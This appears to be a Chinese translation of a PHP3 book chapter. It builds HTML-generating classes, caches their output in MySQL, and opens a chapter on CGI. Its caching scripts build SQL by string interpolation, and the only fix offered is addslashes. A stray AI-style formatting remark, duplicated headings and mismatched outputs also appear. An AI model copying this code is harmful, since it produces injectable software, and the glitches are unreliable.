现在目标已经明确，我们需要选择一个起点。HTML 的基础是标签名和属性列表。任何标签都可能有一个对应的结束标签。大多数标签都是容器——它们包含其他标签。因此，考虑到这些细节，我们来定义一个描述通用标签的类。清单 11.1 改编自上一页的对象框架。其中定义了两个类。`htmlbase` 类为属性（在构造函数中）和 generate 方法提供支持。generate 方法将标签名与其属性组合起来，在一个缓冲变量中形成 HTML，然后将该缓冲返回给调用者。由于 HTML 字符串被返回给调用者，该类对 HTML 的使用方式没有任何限制——它可以回显到客户端浏览器、存储到数据库中，或与其他 HTML 元素组合。

**清单 11.1** *first.php3——支持 HTML 标签*

```
<?php

  class cls_htmlbase {
    var $props;
```


```php
var $defaults = array(
    'tag_name'     => ''
    ,'bln_endtag' => '1'
    ,'attributes' => ''
    ,'contents'    => ''
);

function cls_htmlbase($in_props) {
    while (list($key, $value) = each($this->defaults)) {
        $this->props[$key] = $value;
    }
    while (list($key, $value) = each($in_props)) {
        $this->props[$key] = $value;
    }
}

function generate() {
    $tag_name = $this->props['tag_name'];

    // 将起始标签添加到缓冲区
    $buffer = "<$tag_name>";

    // TODO: 将包含的元素添加到缓冲区。

    // 如果需要，将结束标签添加到缓冲区。
    if ($this->props['bln_endtag'] == '1') {
        $buffer .= "</$tag_name>";
    }
    return($buffer);
}

class cls_html extends cls_htmlbase {
    // 理论上每个网页都应该有一个
    // 文档类型声明标签，用于告知浏览器
    // 其文档类型。尽管文档类型声明
    // 不是HTML标签的一部分，但将其值
    // 存储在 $props 数组中并无坏处。

    function cls_html($in_props = '') {
        $doctype = $in_props['doctype'];
        if (empty($doctype)) {
            $doctype = 'PUBLIC ';
            $doctype .= "-//W3C//DTD HTML 3.2 Final//EN\"";
        }
        $this->cls_htmlbase(array(
            'doctype' => $doctype
        ));
    }

    function generate() {
        // 将属性放入标量变量中
        // 以便于使用。
        $doctype = $this->props['doctype'];
        $tag_name = $this->props['tag_name'];

        $buffer = "<!DOCTYPE $doctype>";

        // 将起始标签添加到缓冲区。
        $buffer .= "<$tag_name>";

        // TODO: 将包含的元素添加到缓冲区。

        // 如果需要，将结束标签添加到缓冲区。
        if ($this->props['bln_endtag'] == '1') {
            $buffer .= "</$tag_name>";
        }
        return($buffer);
    }
}

// 创建一个HTML对象。
$html = new cls_html();

// 将“特殊”字符，例如
// 大于号，转换为HTML实体，
// 以便它们能够正确显示。
$buffer = htmlspecialchars($html->generate());

// 显示生成的HTML。
echo $buffer;
?>
```

此脚本显示

```html
<!DOCTYPE PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html></html>
```

*first.php3* 唯一棘手的部分在于支持 *doctype* 标签。简单来说，文档类型声明标签用于告知浏览器它们即将处理的文档类型。在此例中，以下文档是一个 HTML v3.2 文档。在此阶段，对文档类型声明的全面解释对你可能不太有用——它涉及XML和文档类型定义（DTD）。不过，你可以在第16章“什么是XML？”中找到更多信息。

HTML类的构造函数是

```php
function cls_html($in_props = '') {
    $doctype = $in_props['doctype'];
    if (empty($doctype)) {
        $doctype = 'PUBLIC ';
        $doctype .= '"-//W3C//DTD HTML 3.2 Final//EN"';
    }
    $this->cls_htmlbase(array(
        'doctype'  => $doctype
        ,'tag_name' => 'html'
        ,'bln_endtag' => '0'
    ));
}
```

有趣的一点是，空字符串被用作 `$in_props` 参数的默认值。使用空字符串可以让你无需提供参数即可创建新的HTML对象：

```php
// 不带默认参数
$html = new cls_html('');

// 带默认参数
$html = new cls_html();
```

另一点需要记住的是，文档类型声明标签需要与HTML标签关联。两者缺一在逻辑上是不成立的。因此，从严格的逻辑角度来看，创建一个包含HTML信息的文档类型声明类，与创建一个包含文档类型声明信息的HTML类一样有效。然而，由于HTML标签是网页的核心，而文档类型声明标签是可选的，因此使用了html这个类名。

混合文档类型声明属性和HTML属性是安全的，因为它们没有重叠，并且类始终控制对属性的访问。使用该类的程序员不需要了解内部细节（假设遵循封装原则）。

类创建好后，就该生成HTML以便处理——可以保存或发送到客户端浏览器。为此，需要

```php
$buffer = htmlspecialchars($html->generate());
```

`generate` 方法将文档类型声明标签放入缓冲区，然后附加起始和结束标签。在后面的“添加头部支持”部分，`generate` 方法将被扩展，也会将包含的元素附加到缓冲区。

`htmlspecialchars` 函数将像`<`这样的字符转换为像 `&lt;` 这样的HTML实体，以便浏览器能够显示它们。如果没有这一步，浏览器会看到并解释HTML，这意味着你只能看到HTML生成的网页，而不是HTML本身。

最后，使用 `echo` 函数将HTML缓冲区发送回客户端浏览器。

## 面向未来

> 本节的代码可在 ch11/02 目录中找到。

现在是时候重新评估我们模块的结构了。如果我们为每个HTML标签使用不同的类，那么 first.php3 文件中的类数量很快就会变得难以管理。因此，效仿Java的做法，将每个类放入自己的 .inc 文件中是合理的。

在继续深入本章之前，将 first.php3 文件拆分为

-   cls_htmlbase.inc — 此文件应仅包含 htmlbase 类的代码
-   cls_html.inc — 此文件应仅包含 html 类的代码
-   second.php3 — 对于此文件，使用清单11.2中的代码

**清单11.2** second.php3 — 使用包含文件可以简化你的主脚本文件

```php
<?php // second.php3

require("cls_htmlbase.inc");
require("cls_html.inc");

// 创建一个HTML对象。
$html = new cls_html();

// 将“特殊”字符，例如
// 大于号，转换为HTML实体，
// 以便它们能够正确显示。
$buffer = htmlspecialchars($html->generate());

// 显示生成的HTML。
echo $buffer;
?>
```

## 整合 generate 函数

> 本节的代码可在 ch11/03 目录中找到。

有经验的程序员可能已经注意到，`htmlbase` 和 `html` 类之间存在重复的代码。`generate` 方法在两个类中都有定义。这是在解决PHP无法通过多态调用被重写的方法这一事实。但是，通过增加一点复杂性，你可以避免冗余代码。

技巧是在父类中将 `generate` 方法重命名为某个唯一的名称，然后创建一个新的 `generate` 方法来调用这个唯一命名的方法。子类可以根据需要调用这个唯一命名的方法。如果子类没有明确定义 `generate` 方法，继承仍然有效，因为 `htmlbase` 仍然有一个 `generate` 方法。查看清单11.3后，这个相当令人困惑的技术应该会更清晰。

> 清单11.3 *cls_htmlbase.inc* — 使用唯一命名的方法可以让你调用被多态重写的父类方法

```php
<?php // cls_htmlbase.inc

class cls_htmlbase {

   ...

   // 这是唯一命名的方法。
   // 只有名称改变了，代码
   // 保持不变。
   function htmlbase_generate() {
      $tag_name = $this->props['tag_name'];
      $buffer = "<$tag_name>";

      // TODO: 将包含的元素添加到缓冲区。

      if ($this->props['bln_endtag'] == '1') {
          $buffer .= "</$tag_name>";
      }
      return($buffer);
   }

   // 这是被子类重写的方法。
   // 它的唯一职责是调用
   // 唯一命名的方法。
   function generate() {
      return($this->htmlbase_generate());
   }
}
?>
```

现在 html 类可以更改为使用 `htmlbase_generate` 方法，从而可以重用代码。只需要更新 `cls_html::generate` 方法：

```php
function generate() {
    $doctype = $this->props['doctype'];

    $buffer = "<!DOCTYPE $doctype>";
    $buffer .= $this->htmlbase_generate();

    return($buffer);
}
```

> 在本节中，我使用了 类名::方法名 的表示法来指示特定的类和方法。此表示法在面向对象编程（OOP）世界中是标准的。

注意

## 添加头部支持

> 本节的代码可在 ch11/04 目录中找到。

注意

HTML的head标签不接受任何属性，因此支持起来很简单。清单11.4展示了实现head标签的 cls_head.inc 文件。这个类所做的唯一工作是在初始化时设置 `tag_name`。除此之外，所有的属性和方法都从 htmlbase 类继承而来。


### 清单 11.4 cls_head.inc — 支持 head 标签

```php
<?php // cls_head.inc

  class cls_head extends cls_htmlbase {

    function cls_head($in_props = '') {
      $this->cls_htmlbase(array(
        'tag_name' => 'head'
      ));
    }
  }

?>
```

由于 head 标签包含在 HTML 标签内部，因此需要扩展 htmlbase 类以理解包含的元素。我们需要做的第一处更改是 `$default` 数组。以前，将 contents 属性赋值为空字符串就足够了。然而现在很明显，contents 属性实际上是一个数组——它保存了表示包含的 HTML 标签的对象。新的 `cls_htmlbase::$defaults` 数组如下所示：

```php
var $defaults = array(
  'tag_name'    => ''
  ,'bln_endtag' => '1'
  ,'attributes' => array()
  ,'contents'   => array()
);
```

既然我们已经在修改这段代码，那么顺便将 attributes 属性也更改为数组，以便为将来实现新功能做好准备。

接下来，需要一个方法来将对象添加到 contents 属性中：

```php
function add($element) {
  // copy the contents array.
  $contents = $this->props['contents'];

  // add the element to the end of the array.
  $contents[] = $element;

  // copy the modified array back to the
  // property array.
  $this->props['contents'] = $contents;
}
```

## 添加 Head 支持

最后，需要更改 `htmlbase_generate` 方法，以便将包含的元素纳入生成的 HTML 中：

```php
function htmlbase_generate() {
  $tag_name = $this->props['tag_name'];
  $buffer = "<$tag_name>";

  // add contained elements to buffer.
  $contents = $this->props['contents'];
  while (list($key, $value) = each($contents)) {
    $buffer .= $value->generate();
  }

  if ($this->props['bln_endtag'] == '1') {
    $buffer .= "</$tag_name>";
  }
  return($buffer);
}
```

上述代码中新增的行以粗体显示。它们所做的一切就是遍历 contents 数组，调用与每个 HTML 元素关联的 generate 方法。请记住，contents 属性是一个对象数组。不要被术语的切换所迷惑——这是面向对象编程中常见的混淆点。在讨论面向对象编程代码时，很难不在面向对象术语（对象）和现实世界术语（HTML 元素）之间来回切换。反复使用"HTML 元素对象"这种说法相当冗长。

现在，是时候看看所有这些更改的实际效果了，如清单 11.5 所示。

### 清单 11.5 fourth.php3 — 融入 HTML head 标签

```php
<?php

  require("cls_htmlbase.inc");
  require("cls_html.inc");
  require("cls_head.inc");

  // Create a html object.
  $html = new cls_html();

  // Create a head object.
  $head = new cls_head();

  $html->add($head);

  // Turn 'special' characters, like
  // greater-than signs, into html
  // entities so they can be displayed.
  $buffer = htmlspecialchars($html->generate());

  // Display the generated HTML.
  echo $buffer;
?>
```

对 third.php3 的唯一更改是引入 cls_head.inc 文件、创建 `$head` 对象，以及将 `$head` 对象添加到 `$html` 对象中。你是否开始看出其中的规律，以及如何支持更多标签了？

## 添加 Body 支持

> **注意：** 本节的代码可以在 ch11/05 目录中找到。

接下来我们要支持的标签是 HTML body 标签。该标签经常需要属性，例如 bgcolor 属性用于更改网页的背景色。

支持属性需要再次修改 htmlbase 类。这一次，我们将添加代码来激活 attributes 属性。标签属性在创建标签对象时进行初始化是合理的。

既然我们对模块的整体结构有了更多了解，就应该回顾一些基础知识。例如，`cls_htmlbase` 方法声明为

```php
function cls_htmlbase($in_props = '') { ... }
```

然而这并不合理，因为我们知道 `$in_props` 变量始终是一个数组。为了避免将来产生哪怕片刻的困惑，最好将此声明改为

```php
function cls_htmlbase($in_props = array()) { ... }
```

这一更改仍然为 `$in_props` 变量提供了默认值；但默认值现在是一个空数组，这更加合理。

现在让我们回到 body 标签。创建 body 对象时应该是什么样的？我选择了以下写法：

```php
$head = new cls_head(array(
  'bgcolor' => 'blue'
));
```

使用数组以命名参数的方式传递属性提供了相当大的灵活性。由于类中已有处理命名参数的代码，对"标准"类构造函数只需稍加修改即可。

在处理 htmlbase 构造函数的更改之前，让我们先思考一下 body 类。由于属性验证很重要，因此在 body 类中设置 `$valid_attributes` 数组是合理的。此外，由于 `$in_props` 参数用于将属性传递到类构造函数中，以下这段代码不再有效：

```php
$this->cls_htmlbase(array(
  'tag_name' => 'body'
));
```

参数数组需要传递给 htmlbase 类：

```php
$this->cls_htmlbase($in_props);
```

这一更改导致了一个小问题：tag_name 属性如何传递给 htmlbase 构造函数？答案是在调用 htmlbase 构造函数之前，将该属性添加到 `$in_props` 数组中：

```php
$in_props['tag_name'] = 'body';
$this->cls_htmlbase($in_props);
```

完整的 body 类可以在清单 11.6 中找到。

### 清单 11.6 cls_body.inc — 融入 HTML body 标签

```php
<?php // cls_body.inc

class cls_body extends cls_htmlbase {

   var $valid_attributes = array(
       'background'
      ,'bgcolor'
      ,'text'
      ,'link'
      ,'alink'
      ,'vlink'
      ,'leftmargin'
      ,'topmargin'
      ,'bgproperties'
   );

   function cls_body($in_props = array()) {
       $in_props['tag_name'] = 'body';
       $this->cls_htmlbase($in_props);
   }

}
?>
```

现在我们可以重新处理 htmlbase 类了。构造函数需要更新：

```php
function cls_htmlbase($in_props = array()) {
    while (list($key, $value) = each($this->defaults)) {
        $this->props[$key] = $value;
    }
    while (list($key, $value) = each($in_props)) {
        $this->props[$key] = $value;
    }

    // Get a copy of the attributes array. At this point,
    // it is empty. But 'proper coding' requires us to copy
    // it instead of using array() so that future changes
    // won't be able to break this code.
    $attributes = $this->props['attributes'];

    // Reset the input properties array. it was used
    // above to set class properties.
    reset($in_props);

    // Iterate over the input array, looking for
    // valid attributes, when one is found save it
    // into the copy of the attributes property.
    while (list($key, $value) = each($in_props)) {
        if ($this->validate_attribute_name($key)) {
            $attributes[$key] = $value;
        }
    }

    // Copy the attributes array back into the class
    // property.
    $this->props['attributes'] = $attributes;
}
```

更新后的构造函数引用了 `validate_attribute_name` 方法，如下所示：

```php
function validate_attribute_name($name) {
  $attributes = $this->valid_attributes;

  // If the class being constructed does not have
  // valid attributes, the $attributes variable is
  // not an array (it's probably empty). If that is
  // the case, then no validation needs to be done.
  if (is_array($attributes)) {
    while (list($key, $value) = each($attributes)) {
      if (preg_match("/^$value$/i", $name)) {
        return(1);
      }
    }
  }
  return(0);
}
```

最后的更改是修改 `htmlbase::generate` 方法，以便将属性纳入生成的 HTML 中：

```php
function htmlbase_generate() {
  $tag_name = $this->props['tag_name'];
  $buffer = "<$tag_name";

  // add attributes, if any, to the start tag.
  $attributes = $this->props['attributes'];
  while (list($key, $value) = each($attributes)) {
    $buffer .= " $key=\"$value\"";
  }

  $buffer .= ">";

  // add contained elements to buffer.
  $contents = $this->props['contents'];
  while (list($key, $value) = each($contents)) {
    $buffer .= $value->generate();
  }

  if ($this->props['bln_endtag'] == '1') {
    $buffer .= "</$tag_name>";
  }
  return($buffer);
}
```

通过这最后一次更改，可以创建`fifth.php3`来**测试**新类，如清单11.7所示。

### 清单11.7 fifth.php3—测试HTML body标签

```php
<?php
    require("cls_htmlbase.inc");
    require("cls_html.inc");
    require("cls_head.inc");
    require("cls_body.inc");

    $html = new cls_html();
    $head = new cls_head();

    // 创建一个body对象。
    $body = new cls_body(array(
        'bgcolor' => 'blue'
    ));

    $html->add($head);
    $html->add($body);

    $buffer = htmlspecialchars($html->generate());
    echo $buffer;
?>
```

此脚本显示

```
<!DOCTYPE PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
<head></head>
<body bgcolor="blue"></body>
</html>
```

**注意**
Web浏览器在一行中显示其输出。这里我已将HTML拆分为几行，使其更具可读性。

验证验证代码是否有效总是个好主意。因此，让我们尝试使用错误的属性创建body标签：

```php
$body = new cls_body(array(
    'bgcolor' => 'blue'
    ,'bad_attribute' => 'green'
));
```

使用此代码创建body标签的结果是

## 添加TITLE支持

本节的代码可在ch11/06目录中找到。

HTML title标签不需要属性，也不能包含其他HTML组件。然而，它们确实包含文本——页面的标题。将head类复制并将所有“head”实例更改为“title”是有意义的。这产生了清单11.8。

### 清单11.8 cls_title.inc—支持title标签

```php
<?php // cls_title.inc
  class cls_title extends cls_htmlbase {
    function cls_title($in_props = '') {
      $this->cls_htmlbase(array(
        'tag_name' => 'title'
      ));
    }
  }

?>
```

现在可以将fifth.php3复制为sixth.php3，并使用以下代码生成HTML页面：

```php
require("cls_htmlbase.inc");

$html = new cls_html();
$head = new cls_head();
$body = new cls_body();

// 创建title对象并将页面标题添加到新对象。
$title = new cls_title();
$title->add("PHP HTML Module");

// 将title对象添加到head对象。
$head->add($title);

$html->add($head);
$html->add($body);

$buffer = htmlspecialchars($html->generate());
echo $buffer;
```

驱动程序代码（sixth.php3）中的require语句数量开始失控，因此它们已被移至cls_htmlbase.inc文件的末尾。眼不见，心不烦——对吧？

此驱动程序代码显示

```
<!DOCTYPE PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
<head><title></title></head>
<body></body>
</html>
```

显示了title标签，但未包含字符串。发生了什么？如果我们检查htmlbase_generate方法中处理内容的部分，我们可以看到问题：

```php
$contents = $this->props['contents'];
while (list($key, $value) = each($contents)) {
  $buffer .= $value->generate();
}
```

啊。看到问题了吗？是加粗的文本中的代码。while循环将所有包含的项视为对象。而title对象使用字符串来保存title文本。幸运的是，PHP有一整套变量相关函数。在这种情况下，我们只需要一个：is_object。如果将is_object函数添加到while循环中，它看起来像这样：

```php
$contents = $this->props['contents'];
  while (list($key, $value) = each($contents)) {
    if (is_object($value)) {
      $buffer .= $value->generate();
    }
    else {
      $buffer .= $value;
    }
  }
```

## 添加Comment支持

如果重新加载sixth.php3文件，现在显示

```
<!DOCTYPE PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
<head><title>PHP HTML Module</title></head>
<body></body>
</html>
```

此输出是正确的。顺便说一下，创建对象并将其彼此添加的顺序很重要。正确的顺序是

```php
$html = new cls_html();
$head = new cls_head();
$body = new cls_body();
$title = new cls_title();
$title->add("PHP HTML Module");
$head->add($title);
$html->add($head);
$html->add($body);
```

如果在添加文本字符串之前将title对象添加到head对象，生成的HTML将不正确。这是因为PHP在进行对象赋值时会*复制*对象。因此，赋值后对对象的任何更改都不会反映在副本中。

## 添加Comment支持

本节的代码可在ch11/07目录中找到。

**注意**

不幸的是，并非每个HTML结束标签都与开始标签相同。以HTML注释标签为例，它以`<!--`开始，以`-->`结束。添加对此标签的支持意味着需要对`htmlbase`类进行一两次修改。

首先，需要在`$defaults`数组中添加`start_tag`和`end_tag`属性。然后，如果构造函数未提供值，则需要初始化这两个属性（将其设置为`tag_name`属性）。最后，`htmlbase_generate`方法在生成HTML时需要使用`start_tag`和`end_tag`属性，而不是`tag_name`属性。更改详情如下所示，以加粗文本显示。

**bln_closebracket**属性（在以下代码中）是必需的，因为注释标签是非标准的。符号是`<!-- comment -->`。注意start_tag是“!--”，并且没有后续的“>”字符。同样，结束标签也缺少一个字符，即“<”字符。

### Note

> 有些人可能会说我错误地看待注释标签。他们可能会说，它不是一个开始标签、内容和一个结束标签，而只是一个标签。虽然他们可能是对的，但这一点无关紧要。在我看来，正确的观点是任何使代码工作的方式！出于我们的目的，使用开始和结束标签效果很好。

```php
<?php // cls_htmlbase.inc

  class cls_htmlbase {
    var $props;

    var $defaults = array(
      'tag_name'         => ''
      ,'start_tag'       => ''
      ,'end_tag'         => ''
      ,'bln_endtag'      => '1'
      ,'bln_closebracket'=> '1'
      ,'attributes'      => array()
      ,'contents'        => array()
    );

    function cls_htmlbase($in_props) {
      // ...

      // 如果参数中未指定start_tag和end_tag的值，
      // 则将tag_name属性分配给它们。
      $start_tag = $this->props['start_tag'];
      if (empty($start_tag)) {
        $this->props['start_tag'] =
          $this->props['tag_name'];
      }
      $end_tag = $this->props['end_tag'];
      if (empty($end_tag)) {
        $this->props['end_tag'] = $this->props['tag_name'];
      }
    }
}
```

```php
// ...
}

function validate_attribute_name($name) {
  // ...
}

function htmlbase_generate() {
  $bln_closebracket = $this->props['bln_closebracket'];
  $start_tag = $this->props['start_tag'];
  $end_tag = $this->props['end_tag'];

  $buffer = "<$start_tag";

  // ...

  if ($bln_closebracket == '1') {
    $buffer .= ">";
  }

  // ...

  if ($this->props['bln_endtag'] == '1') {
    if ($bln_closebracket == '1') {
      $buffer .= "</";
    }
    $buffer .= "$end_tag>";
  }

  return($buffer);
}

// ...

}

require("cls_html.inc");
require("cls_head.inc");
require("cls_body.inc");
require("cls_title.inc");
require("cls_comment.inc");
```

注释类如清单11.9所示。

### 清单11.9 cls_comment.inc—支持comment标签

```php
<?php // cls_comment.inc

class cls_comment extends cls_htmlbase {

    function cls_comment($in_props = '') {
        $this->cls_htmlbase(array(
            'tag_name'        => 'comment'
            ,'start_tag'       => '!-­'
            ,'end_tag'         => '-­'
            ,'bln_closebracket' => '0'
        ));
    }
}

?>
```

驱动程序文件（现称为seventh.php3）需要在初始化head对象之后添加以下行：

```php
$comment = new cls_comment();
$comment->add("This is an HTML comment.");
$body->add($comment);
```

通过此添加，脚本现在正确显示注释标签：

```
<!DOCTYPE PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
<head><title>PHP HTML Module</title></head>
<body><!--This is an HTML comment.-­></body>
</html>
```

## 添加对通用标签的支持

到目前为止，HTML模块由六个文件组成。我确信您可以想象更多，因为每个HTML标签都需要一个.inc文件。让我们做出设计决定以限制文件的激增。如果存在一个通用标签（可以变形为title或body标签的标签），那么就不需要新文件。事实证明，htmlbase类可以做到这一点，因为它是父类。在本章前面添加到此类的所有功能开始变得有价值。


由于原始输入已经被处理过（实际文本中没有出现 [PAGE X] 标记或 OCR 伪影——它是干净的程序性内容），我将按原样输出，仅根据你的指示进行少量格式清理。

---

你可以创建一个 `htmlbase` 对象，而不是创建一个 `title` 对象：

```
$title = new cls_htmlbase(array(
  'tag_name' => 'title'
));
```

`$title` 对象的行为与之前相同，意味着它具有相同的属性和方法。唯一的区别是，创建的是 `htmlbase` 对象而不是 `title` 对象。

当然，这种技术也有一些缺点：

- 标签属性无法验证。由于 `$valid_attributes` 数组需要对每个标签都是唯一的，每个需要验证的标签都必须有自己的类。
- 无法满足特殊需求，例如在 HTML 标签之前支持 doctype 标签。
- 标签的处理方式不一致。如果使用 `htmlbase` 类来创建对象，该 HTML 模块的用户需要记住哪些标签有自己的类，哪些使用 `htmlbase`。给程序员带来这种认知负担会导致错误。

每个设计决策都有其优点和缺点；作为程序员，权衡各种因素并做出决定是你的工作的一部分。在这种情况下，我会选择一致性（单独的类文件）而不是使用通用标签。

## 添加默认值支持

本节代码可以在 ch11/08 目录中找到。

唯一尚未实现的目标是第四个目标——能够为标签指定默认属性。例如，创建一个可重用的 "face=Arial, size=1" 字体对象会很方便。清单 11.10 展示了字体类。现在这段代码看起来应该很熟悉了。

### 清单 11.10 cls_font.inc——支持 font 标签

```
<?php // cls_font.inc

  class cls_font extends cls_htmlbase {

    var $valid_attributes = array(
      'color'
      ,'face'
      ,'size'
    );

    function cls_font($in_props = '') {
      $in_props['tag_name'] = 'font';
      $this->cls_htmlbase($in_props);
    }
  }

?>
```

字体对象是这样创建的：

```
$fnt_arial_01 = new cls_font(array(
  'color' => 'black'
  ,'face' => 'Arial'
  ,'size' => '1'
));
```

你可以通过赋值语句将 `$fnt_arial_01` 用作模板，而不是直接使用该变量：

```
$font = $fnt_arial_01;
$font->add("This text is in Arial, Size 1");
$body->add($font);

$font = $fnt_arial_01;
$font->add("So is this");
$body->add($font);

$body->add("This text is in normal font and size.");
```

赋值语句 `$font = $fnt_arial_01;` 本质上创建了一个新对象，无需使用 **new** 关键字。新对象具有原始对象的所有属性。

## 保存（或缓存）HTML

> 本节代码可以在 ch11/09 目录中找到。

如果你创建了复杂的页面元素（如类别列表），这些元素依赖于多个数据库查询，那么将生成的 HTML 缓存到数据库中可能是合理的，这样就不需要每次需要时都重新生成。

为了缓存 HTML，需要创建一个简单的表来存储 HTML 文本和检索名称。我使用 phpMyAdmin 创建了与此 SQL 匹配的表：

```
CREATE TABLE html_cache (
  key_html_cache int(11)
    DEFAULT '0' NOT NULL auto_increment,
  name varchar(100) NOT NULL,
  value blob NOT NULL,
  KEY key_html_cache (key_html_cache),
  KEY name (name)
);
```

在本书前面，每个页面都使用 common.inc 文件来连接数据库；现在是时候在清单 11.11 中重用该代码了。

### 清单 11.11 common.inc——连接数据库的通用代码及一些支持函数

```
<?php // common.inc
  function affy_error_exit($msg) {
    $errno = mysql_errno();
    $error = mysql_error();
    echo '<html><head><title>Error</title></head><body>';
    echo $msg;
    echo "<br>Error: ($errno) $error<br>";
    echo '</body></html>';
    exit();
  }

  $dbname   = 'php_book';
  $hostname = 'localhost';
  $username = 'phpuser';
  $password = 'phpuser';

  $id_link = @mysql_connect($hostname, $username,
    $password);

  if (!$id_link) {
    affy_error_exit('Connection to PHP has failed.');
  }

?>
```

你已经生成过 HTML 并插入过记录，所以这些任务并不陌生。清单 11.12 中的代码将这两项任务结合在一起。

### 清单 11.12 ninth.php3——将 HTML 保存到缓存中

```
<?php
require("common.inc");
require("cls_htmlbase.inc");

function make_html() {
  $font = new cls_font(array(
    'color' => 'black'
    ,'face' => 'Arial'
    ,'size' => '1'
  ));

  $font->add("This text is in Arial, Size 1<br>");

  return($font->generate());
}

function add_to_cache($dbname, $id_link) {
  $name = 'font01';
  $value = make_html();

  $str_sql = "
    INSERT INTO html_cache
    (name,value)
    VALUES ('$name','$value')
  ";

  $result =
    mysql_db_query($dbname, $str_sql, $id_link);

  if (!$result) {
    affy_error_exit('Unable to Insert');
  }

  return($value);
}

$html = add_to_cache($dbname, $id_link);
echo $html;

@mysql_close($id_link);
?>
```

如果一切正常，此代码会显示

```
The insert was successful.
```

> 使用上述插入 SQL，我能够存储一个 120,000 字符的 HTML 字符串。而且我确信上限要高得多。所以不用担心生成的 HTML 字符串太大而无法存储在一条记录中。

那么，应该如何检索这条记录呢？清单 11.13 展示了一种方法。为了避免在清单中重复代码，从上一个清单重用的代码用省略号（...）表示。此脚本检查数据库中是否存在 'font01' 记录——以查看该记录是否存在——并避免再次生成 HTML 的开销。

### 清单 11.13 get_html.php3——从缓存中获取 HTML

```
<?php
  require("common.inc");
  require("cls_htmlbase.inc");

  function make_html() {
     // ...
  }

  function add_to_cache($dbname, $id_link) {
     // ...
  }

  function test_cache($dbname, $id_link) {
     $name = 'font01';

     $str_sql = "
       SELECT value
       FROM   html_cache
       WHERE name = '$name'
     ";

     $result =
       @mysql_db_query($dbname, $str_sql, $id_link);

     if (!$result) {
       echo "Generating HTML<br>";
       $value = add_to_cache($dbname, $id_link);
     }
     else {
       echo "From Cache<br>";
       $record = @mysql_fetch_object($result);
       $value = $record->value;
     }
     return($value);
  }

  $html = test_cache($dbname, $id_link);
  echo $html;

  @mysql_close($id_link);
?>
```

> **注意：** 此处开发的代码并不完整。例如，如果你的 **$name** 变量包含单引号，SQL 将无法正确执行。使用 PHP 中的 **addslashes** 函数（如 `$name = addslashes($name)`）来解决此问题。

## 小结

仅使用计算机语言语句来锻造一套目标的解决方案会带来一种满足感，即使只是短暂的。这种感觉会一直持续到你想到下一组要添加的功能。然后是再下一组。

本章创建的 HTML 模块绝不是完整的。也许，设计也不是最佳可能的。然而，它"对于手头的工作来说已经足够好了"。花费四天时间来改进一个脚本以节省两天的执行时间是没有意义的。

每个项目都从一个想法开始。在本例中，这个想法是创建一个使用类的 HTML 模块，以消除 echo 语句。然后这个想法被细化为四个目标：

定义目标后，我们检查了问题的领域空间，在本例中意味着 HTML 语言。所有标签的共同点似乎是带有或不带属性的开始标签、包含的信息和结束标签。

从 `htmlbase` 和 `html` 类开始，开发了初始模块。使用这个模块，这些类表明可以实现两个目标：没有 echo 语句，并遵循 Java 的用户界面模型。

然后迅速连续地提供了对 head、body、title 和 comment 标签的支持。我们了解到每个标签都需要对 `htmlbase` 类进行不同的更改。head 标签需要更改以便生成包含的元素。body 标签需要支持属性。title 标签需要包含非对象（如字面文本）。而 comment 标签需要不同的开始和结束标签。

我们讨论了一种仅使用 `htmlbase` 类转换为通用对象的方法，但出现了几个问题——例如无法执行验证——最终促使我们继续更精确地使用对象。

接下来，解决了默认属性的目标。通过使用 PHP 使用赋值运算符创建对象副本的能力，实现了这一目标。创建了一个具有所需属性和类的对象，然后将其用作创建新副本的模板。根据需要修改新副本，并将其添加到更大的 HTML 元素中。

最后，我们学习了如何将 HTML 文本保存到数据库中。在下一步中，我们创建了一个合适的数据库（使用 phpMyAdmin 或带有 SQL create table 语句的 mysql 实用程序）。然后，生成并保存了一个 HTML 文本字符串，使用 insert 语句。当概念被证明有效时（即 insert 语句的返回代码成功），我们开发了一个函数来检查数据库，如果

否则该文件已存在；而 HTML 文本则会被生成并保存以供将来使用。

在下一章"什么是 CGI？"中，本书前面讨论的一些主题将得到最终解释。你将了解环境变量和 HTML 表单等内容。

# 什么是 CGI？

CGI，即*通用网关接口*，是 Web 服务器与外部程序之间的标准编程接口。PHP 为你隐藏了大部分复杂性，但了解其基本原理对于智能应用设计和调试至关重要。

CGI 标准并非独立存在；它依赖于 HTML 和 HTTP 标准。HTML 是让 Web 浏览器理解文档内容的标准。HTTP 是一种通信协议，它让 Web 服务器能够与 Web 浏览器进行通信。互联网所依赖的许多协议在 RFC（征求意见稿）文档中有详细说明。这些文档可以在 http://www.ietf.org/ 上找到。

### 注意

> 不要将 CGI 标准与 PHP 既能作为 CGI 能力的*程序*运行、又能作为理解 CGI 标准的 Apache 模块运行的功能混淆。本书专门专注于将 PHP 作为 Apache 模块使用。

几乎任何人都可以拼凑一些 HTML 并将主页发布到 Web 上。但坦率地说，大多数网站都很无聊。为什么？大多数网站都是由一系列永不更改的简单 HTML 文档构建而成；因此它们完全是静态的。没有人会访问一个静态页面超过一两次。想想你最常访问的网站。它们可能确实有一些有趣的内容，但更重要的是，它们拥有动态内容。

那么 Webmaster 该怎么做？没有 Webmaster 有时间每天手动更新他们的网站。幸运的是，开发 Web 协议的人们考虑到了这个问题，并给了我们 CGI。CGI 提供了一种让网站变得动态和交互式的方式。

"CGI"这个缩写中的每个单词都有助于理解这个接口：

*   **通用**—与许多不同的操作系统交互
*   **网关**—为用户提供访问不同程序的方式，如数据库或图形生成器
*   **接口**—使用明确定义的方法与 Web 服务器交互

CGI 应用程序几乎可以执行你能想到的任何任务。例如，你可以动态创建网页、访问数据库、进行 Telnet 会话、生成图形以及统计数据。

CGI 背后的基本概念相当简单；然而，实际创建 CGI 应用程序并不简单。这需要真正的编程技能。你需要能够调试程序，并在不同的想法之间建立逻辑联系。你还需要有能力可视化你想要创建的应用程序。本章将帮助你开始 CGI 编程。

## CGI 应用与 Java 小程序

CGI 和 Java 是两个完全不同的东西。CGI 是一种可以被任何编程语言使用的规范。CGI 应用程序在 Web 服务器上运行。Java 小程序则在客户端的 Web 浏览器内执行。

CGI 应用程序应设计为利用 Web 服务器的集中特性。它们非常适合搜索数据库、处理 HTML 表单数据以及需要与用户有限交互的其他应用程序。

